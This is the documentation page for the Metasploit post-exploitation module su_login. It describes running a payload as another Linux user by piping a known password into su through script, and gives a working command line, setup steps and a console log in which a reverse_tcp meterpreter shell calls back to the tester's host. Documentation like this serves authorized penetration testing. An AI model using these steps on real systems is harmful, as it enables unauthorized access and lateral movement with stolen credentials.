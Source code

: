 ## Description

  This module attempts to create a new login session by invoking the su command of a valid username and 
  password. If the login is successful, a new session is created via the specified payload. While this 
  functionality can be reproduced by a TTY shell, a hacker might want to switch users with a meterpreter 
  session, or simply have all of their shells managed in one place.

  The su command is used in Linux and Unix environments to change to another user in Linux. We can use this
  command to launch our payload as another user by running `su - [username] -c [payload]`. However, because
  you cannot pass in the password into su directly, we have to get a little more crafty. By running a command
  in sh, we can pipe the output to our su command (kind of) by using the following command:
  `sh -c 'sleep 1; echo [password]' | script /dev/null -qc 'su - [username] -c [payload]'`.

  Working example: `sh -c 'sleep 1; echo lamepassword' | script /dev/null -qc 'su - admin -c /tmp/shell'`

## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Get valid target username and password
  4. Do: `use exploit/linux/local/su_login`
  5. Do: `set SESSION [SESSION]`
  6. Do: `set USERNAME [USERNAME]`
  7. Do: `set PASSWORD [PASSWORD]`
  8. Do: `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
  9. Do: `set LHOST [LHOST]`
  10. Do: `set LPORT [LPORT]`
  11. Do: `run`
  12. You should get a new session as the specified user

## Options

  ### USERNAME
  The username of the user to switch to
  
  ### PASSWORD
  The password of the user to switch to

## Scenarios

  ```
  msf > use exploit/linux/local/su_login 
  msf exploit(linux/local/su_login) > set SESSION 1
  msf exploit(linux/local/su_login) > set USERNAME admin
  msf exploit(linux/local/su_login) > set PASSWORD lamepassword
  msf exploit(linux/local/su_login) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/local/su_login) > set LHOST 192.168.3.193
  msf exploit(linux/local/su_login) > set LPORT 4445
  msf exploit(linux/local/su_login) > run

  [*] Started reverse TCP handler on 192.168.3.193:4445 
  [*] Uploading payload to target
  [*] Attempting to login with su
  [*] Sending stage (976712 bytes) to 172.17.0.2
  [*] Meterpreter session 2 opened (192.168.3.193:4445 -> 172.17.0.2:39868) at 2020-09-23 04:26:49 -0400

  meterpreter > getuid
  Server username: admin @ 59f089909a39 (uid=1001, gid=1001, euid=1001, egid=1001)
  ```
